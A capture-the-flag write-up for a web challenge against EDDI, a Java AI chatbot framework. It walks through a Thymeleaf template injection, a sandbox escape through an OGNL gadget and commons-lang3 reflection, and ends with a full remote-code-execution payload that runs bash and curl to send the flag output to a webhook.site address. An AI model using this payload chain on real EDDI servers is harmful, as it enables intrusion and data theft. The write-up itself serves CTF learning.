








[WEB] Red wEDDIng (Unsolved in time)
===
Played with [about:blankets](https://x.com/aboutblankets)

## Description
There is this AI named xbow and they claim that it matches the capabilities of a top human pentester. But we do wonder why it only goes for the low hanging fruit in random github projects so they can harvest as many CVEs as possible. After reading https://xbow.com/blog/xbow-eddi-path/ you'll notice they gave up easily when testing for higher severity vulnerabilities.

Completely unrelated, I spun up https://github.com/labsai/EDDI with all their findings patched. I hope no one gets Arbitrary Code Execution on my server 👉👈

## The challenge

EDDI is an AI chatbot framework written in Java. It uses langchain,openai, and other tools.



It's simply this, main branch, all dependencies updated...👉👈

## Initial work

Let's read the [xbow blog post](https://xbow.com/blog/xbow-eddi-path/).

They wrote about a path traversal (CVE-2024-53844) and some other possibilities, like templating with `Thymeleaf`, ZipSlip, Symbolic Link etc...

My broken brain, after 24 hours of CTF, totally skipped the zip vulnerabilities (an intended and easy solution) and read only the templating part.

So, welcome to the unnecessarily complex solution.

## Find the bug

`EDDI` has a `bot father` that you can use to create other bots, so let's do that.



Ta-Tannn!



Now, let's add templating.



Reading the docs, we learn that templating is applied during output, so let's try to add some injection in the output plugin as the first message. 



And...



Yes! We have an injection point.


## Thymeleaf, OGNL, and all the sandboxes

### Cannot instance static method

First try:

```java
[[ ${@java.Lang.Runtime@getRuntime} ]]
```

Of course, it doesn't work.

```
Instantiation of new objects and access to static classes or parameters is forbidden in this context
```

This security measure is implemented in `Thymeleaf`, but it is easily bypassable if the injection permits changing context.

```java
<[# th:with='aaa=${@java.Lang.Runtime@getRuntime}' ][/]>
```

It works, but now:

```
Access is forbidden for type 'java.Lang.Runtime' in this expression context.
```

Here, we have the real sandbox.

### Thymeleaf sandbox

There isn't a known method to bypass the sandbox in the `Thymeleaf`. We tried`"".class.forName`, but nothing works with the latest version (unless `0day`).

So we need a gadget to escape this.

### The gadget

`Thymeleaf` uses `OGNL`, and `EDDI` uses it too. So we need a way to call `OGNL` without passing through `Thymeleaf`

Let's search for a call to `Ognl.` in a static method (more easy to invoke)

1 result:



So, if we pass an expression to this call, it bypasses `Thymeleaf` because we call the `Ognl` class directly. Cool!

```java
<[# th:with='aaa=${@ai.labs.eddi.utils.MatchingUtilities@executeValuePath(null, "Expression", "", "")}' ][/]>
```

### Ognl escape sandbox

We cannot directly instance `java.lang.Runtime`, but now, outside `Thymeleaf`, we can call `@Class@forName`

Of course, because of the sandbox, we cannot also call `getRuntime` or `execute` directly on the class, but `EDDI` import `org.apache.commons.lang3`, which is a reflection class.


### Putting all together


```java
// Calling a static method
@org.apache.commons.lang3.reflect.MethodUtils@invokeStaticMethod(@Class@forName(''), '', args...)

// Calling a method
@org.apache.commons.lang3.reflect.MethodUtils@invokeMethod(obj, '', args..)
```

Taking the `runtime` and calling `execute`

```java
@org.apache.commons.lang3.reflect.MethodUtils@invokeMethod(@org.apache.commons.lang3.reflect.MethodUtils@invokeStaticMethod(@Class@forName('java.lang.Runtime'), 'getRuntime'), 'exec', new String[]{command...})
```

Unfortunately, this causes an `Index out of bound exception' when Ognl tries to call `getRuntime` because it tries to pass some parameters, so I randomly added some `null` params. 

```java
@org.apache.commons.lang3.reflect.MethodUtils@invokeMethod(@org.apache.commons.lang3.reflect.MethodUtils@invokeStaticMethod(@Class@forName('java.lang.Runtime'), 'getRuntime', null, null), 'exec', new String[]{command...})
```

Final payload:

```java
<[# th:with='aaa=${@ai.labs.eddi.utils.MatchingUtilities@executeValuePath(null,"@org.apache.commons.lang3.reflect.MethodUtils@invokeMethod(@org.apache.commons.lang3.reflect.MethodUtils@invokeStaticMethod(@Class@forName(\"java.lang.Runtime\"),\"getRuntime\",null,null),\"exec\",new String[]{\"bash\", \"-c\", \"curl -d $(/would you be so kind to provide me with a flag) https://webhook.site/c273ed76-892e-4609-81ff-6fa2a88ab085 \"})","","")}'][/]>
```

